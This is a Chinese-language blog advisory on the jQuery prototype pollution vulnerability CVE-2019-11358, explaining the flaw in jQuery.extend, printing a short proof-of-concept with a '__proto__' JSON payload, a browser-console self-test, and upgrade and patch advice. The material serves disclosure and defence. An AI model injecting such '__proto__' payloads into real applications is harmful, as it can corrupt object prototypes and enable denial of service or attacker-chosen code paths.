 # [JQuery原型污染漏洞-CVE-2019-11358](https://www.cnblogs.com/gaopei/p/17121131.html)

**漏洞概述**

​    原型污染漏洞指的是攻击者修改 JavaScript对象原型的能力。JavaScript对象就像变量一样，但存储的并非一个值 (var car = “
Fiat”)，而是能够包含基于预设结构的多个值（var car ={type:"Fiat", model:"500", color:"white"}）。
​    原型定义了JavaScript 对象的默认结构和默认值，因此当未设置值时，应用程序不会崩溃。原型污染攻击可导致攻击者覆写
JavaScript 应用程序对象原型。由攻击者控制的属性可被注入对象，之后或经由触发JavaScript异常引发拒绝服务，或篡改该应用
程序源代码从而强制执行攻击者注入的代码路径。
​    漏洞本身是高危漏洞，但利用难度比较大。原型污染漏洞并未可大规模被利用的漏洞，因为漏洞要利用成功，需要攻击者非常了解
具体代码的结构，需要攻击者深入了解每个网站和对象原型的运作方式以及这些原型如何在庞大的图式中进行分解，然后构造合适
的利用方法才能成功。一般闭源的网站系统，攻击者很难深入了解从而构造利用代码，所以几乎不受此漏洞攻击。

**漏洞验证**
漏洞POC：https://github.com/jquery/jquery/pull/4333。
漏洞分析如下：
./src/core.js 第155行：
if ((options = arguments[ i ]) != null) {
options 取传入的参数 arguments[i]，而后第158 、159 行：
for (name in options) {            
   copy= options [name];
name、copy值进而可以受输入控制。
最后，在第183行：
target[name] = jQuery.extend (deep,clone,copy);
在第187行：
target[name] = copy;
如果name可以为__proto__，则会向上影响target的原型，进而覆盖造成原型污染。
target 在第127行：
target = arguments[ 0 ] || {}

**漏洞复现**

```
var jquery = document.createElement('script');
jquery.src = 'https://code.jquery.com/jquery-3.3.1.min.js';

let exp = $.extend(true, {}, JSON.parse('{"__proto__": {"exploit": "h3rmesk1t"}}'));
console.log({}.exploit)
```

![img](CVE-2019-11358%20JQuery%E5%8E%9F%E5%9E%8B%E6%B1%A1%E6%9F%93%E6%BC%8F%E6%B4%9E.assets/499900-20230214222849106-244539009.png)

 

 

**测试您的网站**
要了解您的应用程序是否存在漏洞和/或是否正确应用了修复程序，您可以在浏览器的开发人员控制台中执行以下代码：

```
var maliciousJson = '{ "myProperty" : "a", "__proto__" : { "isVulnerable" : true } }'; var testObject = jQuery.extend(true, {}, JSON.parse(maliciousJson )); if (typeof {}.isVulnerable !== 'undefined' && {}.isVulnerable === true) { alert("Bad news :(\nYou're (still) vulnerable to Prototype Pollution") } else { alert("All Good! :)\nYou're NOT vulnerable (anymore) to Prototype Pollution") }
```

点击回车键，弹出警告，表明当前您的网站不受该威胁：

![img](CVE-2019-11358%20JQuery%E5%8E%9F%E5%9E%8B%E6%B1%A1%E6%9F%93%E6%BC%8F%E6%B4%9E.assets/499900-20230214223638835-1868060121.png)

**修复建议**
（1）jQuery version 3.x 修复方案
升级到最新的3.4.0版本：https://blog.jquery.com/2019/04/10/jquery-3-4-0-released/。
（2）jQuery version 2.x和1.x 修复方案
补丁链接：https://github.com/DanielRuf/snyk-js-jquery-174006?files=1。